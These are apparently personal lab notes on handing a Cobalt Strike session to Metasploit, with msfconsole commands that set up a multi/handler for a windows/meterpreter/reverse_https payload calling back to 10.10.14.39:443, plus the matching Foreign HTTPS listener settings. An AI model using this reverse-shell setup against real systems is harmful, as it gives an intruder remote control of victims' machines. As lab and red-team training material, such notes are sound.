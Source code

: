 setup msfconsole `multi/handler`
```bash
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > 
```
setup payload
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > 
```
show options 
-> `set lhost`
-> `set lport`
```bash
msf6 exploit(multi/handler) > set lhost 10.10.14.39
lhost => 10.10.14.39
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_https):

Payload options (windows/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.39      yes       The local listener hostname
   LPORT     443              yes       The local listener port
   LURI                       no        The HTTP Path



Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > 
```
`set ExitOnSession  false` 
- allows multiple sessions to exist in meterpreter without killing session
```bash
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
```
`exploit -j`
- sets background meterpreter job, multi/handler is listening
```bash
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started HTTPS reverse handler on https://10.10.14.39:443
```
Create new Cobalt Strike Listener to pass session to meterpreter session
```bash
Listener -> New Listener -> Options below -> Save
NAME: msf - meterpreter https_session
PAYLOAD: Foreign HTTPS
HTTPS Host(Stager): 10.10.14.39
HTTPS Port(Stager): 443
```

![[ss-20250911-cobaltstrike-to-meterpreter-session-passing.png]]